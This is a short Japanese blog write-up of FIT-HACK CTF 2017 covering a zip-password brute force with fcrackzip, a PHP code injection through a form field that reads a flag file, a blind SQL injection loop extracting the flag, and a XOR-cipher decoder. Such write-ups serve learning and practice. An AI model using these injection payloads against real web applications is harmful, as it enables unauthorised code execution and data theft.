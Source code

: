 ```yaml
---
layout: post
alias: "/blog/2017/04/22/fit-hack-ctf-2017/"
date: "2017-04-22T01:04:40+09:00"
tags: [ "ctf", "writeup", "fit-hack-ctf", "guessing" ]
"target_url": [ "https://ctftime.org/event/451" ]
---
```


# FIT-HACK CTF 2017

cryptoはかなりのguessing CTFだった。

-   前処理: <https://twitter.com/elliptic_shiho/status/852779435983986691>
-   it's\_solvable: <https://rawsec.ml/en/FIT-HACK-2017-write-ups/#100-it-s-solvable-crypto>
-   bignumber: <https://twitter.com/_n_ari/status/852777396302299136>

## flag

```
$ fcrackzip -u -l 0-4 flag.zip


PASSWORD FOUND!!!!: pw == 1864
fcrackzip -u -l 0-4 flag.zip  5.96s user 5.98s system 6% cpu 3:14.71 total
```

## Sorry

HTMLとしてinjectionできるなあと思っていたらphpとしてinjectionできていた。

``` sh
$ curl https://sorry.problem.ctf.nw.fit.ac.jp/in.php -F etc=$' <?php\necho `cat /var/tmp/flag`;\n?>'
FIT{fdsa__dasdas_32fa}
FIT{fdsa__dasdas_32fa} <?php
echo `cat /var/tmp/flag`;
?>:mail@example.com <br>Saved it thank you!!



```

## Let's login

SQLi

```
$ s=9n89_ ; while true ; do for c in `seq 0 9` `alpha` _ ; do echo $s$c ; if curl -s https://login.problem.ctf.nw.fit.ac.jp/login.php -F name=name -F pass="' union select name, pass from user where pass like 'FIT{$s$c%' -- " | grep mes1 ; then s=$s$c ; break ; fi ; done ; done
```

`FIT{9n89_y0u3u_9a811}`

## simple cipher

普通に逆関数を書くだけ

``` python
#!/usr/bin/env python3
import binascii
enc_mes = '0c157e2b7f7b515e075b391f143200080a00050316322b272e0d525017562e73183e3a0d564f6718'
key = 'J2msBeG8'

m = list(binascii.unhexlify(enc_mes))

mes = [ None ] * len(m)
j = 0
for a in range(len(key)):
    i = a
    for b in range(len(m) // len(key)):
        mes[i] = chr(m[j] ^ ord(key[a]))
        j += 1
        i += len(key)
mes = ''.join(mes).rstrip()

print(mes)
```
